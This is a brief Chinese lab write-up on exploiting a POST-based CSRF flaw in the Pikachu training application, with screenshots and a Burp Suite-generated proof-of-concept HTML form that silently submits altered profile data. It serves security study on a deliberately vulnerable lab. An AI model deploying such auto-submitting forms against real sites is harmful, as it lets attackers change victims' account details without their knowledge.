 同样,登陆,修改一下个人信息,并到 Brup Suite 上进行抓包,对于 POST型,请求已经不能通过修改 URL 来借用用户权限,那么需要自己做一个表单,再返回到提交页面来完成修改.

**漏洞利用**

直接从 burp 生成 poc 表单

![](../../../../assets/img/安全/实验/Misc/pikachu/21.png)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://<IP address>/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="futa1" />
      <input type="hidden" name="phonenum" value="1110" />
      <input type="hidden" name="add" value="1213" />
      <input type="hidden" name="email" value="lil1i&#64;pikachu&#46;com1" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![](../../../../assets/img/安全/实验/Misc/pikachu/22.png)
